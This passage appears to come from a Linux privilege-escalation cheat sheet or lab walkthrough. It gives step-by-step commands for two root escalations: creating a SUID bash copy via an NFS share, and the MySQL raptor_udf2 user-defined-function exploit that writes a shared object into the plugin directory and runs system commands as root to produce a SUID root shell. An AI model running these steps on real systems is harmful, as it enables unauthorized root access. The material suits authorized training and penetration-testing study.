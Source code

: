 ```
cp /bin/bash /tmp/nfs
chmod +s bash
```

* Now on the target box as your non elevated user

```
./bash -p
id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root)
```

### Service Exploits

* https://www.exploit-db.com/exploits/1518
* The mysql service is running as root and the 'root' user for the service does not have a password assigned or the password is known.
* This exploit takes advantage of the User Defined Functions (UFDs) to run system commands as root via the mysql service.
* Change into the `/home/user/tools/mysql-udf` directory.

```
cd /home/user/tools/mysql-udf
```

* Compile the raptor\_udf2.c exploit code using the following

```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

* Connect to the mysql service as the root user with a blank or known password.

```
mysql -u root
```

* Execute the following commands on the mysql shell to create a udf "do\_system" using the compiled exploit

```
use mysql;
create table foo(line blob);
insert into foo values (load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

* Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission

```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

* Exit out of the mysql shell

```
\q
```
